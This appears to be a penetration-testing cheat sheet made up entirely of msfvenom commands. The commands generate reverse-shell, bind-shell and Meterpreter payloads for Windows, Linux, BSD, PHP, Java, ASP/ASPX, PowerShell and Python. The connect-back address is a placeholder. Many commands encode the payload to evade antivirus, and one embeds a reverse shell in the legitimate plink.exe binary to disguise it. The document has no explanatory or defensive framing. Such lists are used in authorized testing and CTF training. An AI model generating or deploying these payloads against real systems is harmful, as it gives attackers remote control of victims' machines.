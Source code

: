 ```

-   msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

-   msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho


### **MSFVenom Payloads**

- PHP reverse shell  
    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

- Java WAR reverse shell  
    msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

- Linux bind shell  
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

- Linux FreeBSD reverse shell  
    msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

- Linux C reverse shell  
    msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c

- Windows non staged reverse shell  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

- Windows Staged (Meterpreter) reverse shell  
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

- Windows Python reverse shell  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

- Windows ASP reverse shell  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp

- Windows ASPX reverse shell
    msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

- Windows JavaScript reverse shell with nops  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

- Windows Powershell reverse shell  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

- Windows reverse shell excluding bad characters  
    msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

- Windows x64 bit reverse shell  
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

- Windows reverse shell embedded into plink  
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```